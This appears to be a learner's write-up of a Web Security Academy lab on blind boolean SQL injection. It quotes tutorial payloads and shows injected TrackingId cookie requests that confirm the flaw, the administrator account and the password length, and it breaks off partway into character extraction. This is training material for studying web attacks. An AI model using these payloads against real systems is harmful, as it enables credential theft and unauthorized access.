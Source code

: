 ```
For example, suppose there is a table called Users with the columns Username and Password, and a user called Administrator. You can determine the password for this user by sending a series of inputs to test the password one character at a time.

To do this, start with the following input:

```xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm```
This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than m.

Next, we send the following input:

```xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't```
This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than t.

Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is s:

```xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's```
We can continue this process to systematically determine the full password for the Administrator user.

Note
The SUBSTRING function is called SUBSTR on some types of database. For more details, see the SQL injection cheat sheet.

### Challenge
In Shop, find the SQL injection (trackingId cookie) and then use blind boolean methods to uncover the administrator's password to login. 

Found the SQLi by conducting a simple 1=1 boolean injection on the cookie which when 1=2 we did not get the "Welcome Back" tracking banner but when 1=1 we did. 
```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0af200090370843486cfde7a00470058.web-security-academy.net
Cookie: TrackingId=BQ4yupPEXi6QwoRX'+AND+'1'='2'--; session=v6Cy546NwHBVlsM3LlV8KsK1hkx78Dwm
```
Then, we check to see if there is a username that starts with 'a' in the users table:
```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0af200090370843486cfde7a00470058.web-security-academy.net
Cookie: TrackingId=BQ4yupPEXi6QwoRX'+AND+(SELECT 'a' FROM users LIMIT 1)='a; session=v6Cy546NwHBVlsM3LlV8KsK1hkx78Dwm
```
Then, validate that the username is indeed administrator:
```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0af200090370843486cfde7a00470058.web-security-academy.net
Cookie: TrackingId=BQ4yupPEXi6QwoRX'+AND+(SELECT 'a' FROM users WHERE username='administrator')='a; session=v6Cy546NwHBVlsM3LlV8KsK1hkx78Dwm
```
Determine the length of the administrators password by asking if it is true that the length is greater than 19 which it is but it is not greater than 20:
```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0af200090370843486cfde7a00470058.web-security-academy.net
Cookie: TrackingId=BQ4yupPEXi6QwoRX'+AND+(SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>19)='a; session=v6Cy546NwHBVlsM3LlV8KsK1hkx78Dwm
```
Next, we're looking to find all 20 characters to the password. 
```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0af200090370843486cfde7a00470058.web-security-academy.net